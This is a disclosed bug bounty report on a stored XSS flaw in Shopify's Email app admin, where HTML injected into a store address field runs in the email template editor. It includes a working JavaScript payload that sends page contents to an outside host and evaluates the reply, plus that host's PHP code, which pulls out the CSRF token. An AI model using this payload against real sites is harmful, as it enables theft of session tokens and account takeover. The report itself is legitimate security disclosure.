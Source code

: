 # XSS within Shopify Email App - Admin

## Report Details
- **Report ID**: 869831
- **URL**: https://hackerone.com/reports/869831
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2020-05-10T02:11:36.379Z
- **Disclosed**: 2020-09-14T19:56:53.154Z

## Reporter
- **Username**: imgnotfound
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
The Shopify Email Application is vulnerable to XSS

A user with only **Settings** https://hackerone.myshopify.com/admin/settings/general access can inject html within the **Apartment, suite, etc. (optional)** of the **Store address** section that will then be displayed in the Shopify Email Template edition

## Steps to reproduce
1. Open **Settings** page
1. Insert malicious HTML within the **Apartment, suite, etc. (optional)** field. Please note that the inserted code is a bit too complex for nothing but was just trying out if it was possible to "bypass" the 255 characters limit , which is possible. (Code snippet can be found below).
██████
3. Install Shopify Email App
4. Select a template that displays **Apartment, suite, etc. (optional)** field
{F822194}


## Javascript code used
```
<img src="a:" onerror="var t=setTimeout;t(function(){var b=function(d){var x=new XMLHttpRequest;t(function(){eval(x.responseText)},2000);x.open('POST','https://fbs.ninja');x.send(d)};window.parent.postMessage(b(document.head.innerHTML),'*');},2000)"/>
```

## PHP code of https://fbs.ninja used in the XMLHttpRequest
```
<?
header("Access-Control-Allow-Origin: *");

$html = file_get_contents('php://input');

$doc = DOMDocument::loadHTML($html);
$xpath = new DOMXPath($doc);
$query = "//meta[@name='csrf-token']";
$entries = $xpath->query($query);

$csrf = "";
foreach ($entries as $entry) {
	$csrf = $entry->getAttribute('content');
	break;
}

$request = "alert('CSRF Token: " . $csrf . "');";

echo $request;

?>

## Impact

An attacker could at least trigger requests to the https://email.shopifyapps.com/graphql endpoint.

## Attachments
- Screen_Shot_2020-05-09_at_9.24.54_PM.png

